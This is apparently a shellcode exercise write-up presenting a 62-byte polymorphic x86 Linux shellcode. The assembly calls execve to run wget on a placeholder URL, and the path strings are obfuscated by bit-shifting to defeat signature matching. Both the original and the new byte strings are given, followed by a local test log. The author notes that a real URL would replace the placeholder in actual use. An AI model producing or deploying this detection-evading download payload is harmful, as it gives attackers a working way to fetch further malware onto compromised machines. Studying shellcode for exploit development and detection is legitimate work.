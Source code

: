 Polymorphic version :  
**Size : 62 bytes (147.6%)**
```nasm
    xor     eax, eax
    mul     eax			; EDX, EAX set to 0
    push    eax			; string terminator
    push    0x61616161		; "aaaa" wget url argument
    mov     al, 0xb		; execve syscall
    lea     ecx, [esp]		; ECX point to "aaaa"

    push    0x74		; t
    mov     ebx, 0xcaceee5e
    shr     ebx, 1		; shift one byte to the right
    push    ebx			; egw/
    mov     ebx, 0xdcd2c45e
    shr     ebx, 1		; shift one byte to the right
    push    ebx			; nib/
    mov     ebx, 0xe4e6ea5e
    shr     ebx, 1		; shift one byte to the right
    push    ebx			; rsu/
    lea     ebx, [esp]		; EBX point to "/usr/bin/wget"

    mov     [esp-4], edx	; "push" null
    mov     [esp-8], ecx	; "push" pointer on wget url argument
    mov     [esp-12], ebx	; "push" pointer to wget command
    lea     ecx, [esp-12]	; ECX point to *args
    int     0x80		; exec execve("/usr/bin/wget", ["/usr/bin/wget","aaaa"],null)
```

Original shellcode :  
"\x6a\x0b\x58\x99\x52***\x68\x61\x61\x61\x61***\x89\xe1\x52\x6a\x74"\x68\x2f\x77\x67\x65\x68\x2f\x62\x69\x6e\x68\x2f\x75\x73\x72\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80\x40***\xcd\x80***"  

The new shellcode :  
"\x31\xc0\xf7\xe0\x50\xb0\x0b***\x68\x61\x61\x61\x61***\x8d\x0c\x24\x6a\x74\xbb\x5e\xee\xce\xca\xd1\xeb\x53\xbb\x5e\xc4\xd2\xdc\xd1\xeb\x53\xbb\x5e\xea\xe6\xe4\xd1\xeb\x53\x8d\x1c\x24\x89\x54\x24\xfc\x89\x4c\x24\xf8\x89\x5c\x24\xf4\x8d\x4c\x24\xf4***\xcd\x80***"  

I did not replace the 'aaaa' string because when used in real life we will set a valid url in place of it.  
Except it there is only the int 0x80 at the end that we can find.

```plaintext
#To test it we need to add a line in /etc/hosts and use a webserver:

root@kali:~/ echo "127.0.0.1 aaaa" >> /etc/hosts
root@kali:~/ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

#Then on another terminal :
root@kali:~# ./remote-dwnld-poly 
Payload Length:  62
--2020-05-12 04:09:37--  http://aaaa/
Resolving aaaa (aaaa)... 127.0.0.1
Connecting to aaaa (aaaa)|127.0.0.1|:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1008 [text/html]
Saving to: 'index.html'

index.html         100%[=====================>]    1008  --.-KB/s    in 0s      

2020-05-12 04:09:37 (3.56 MB/s) - 'index.html' saved [1008/1008]
```
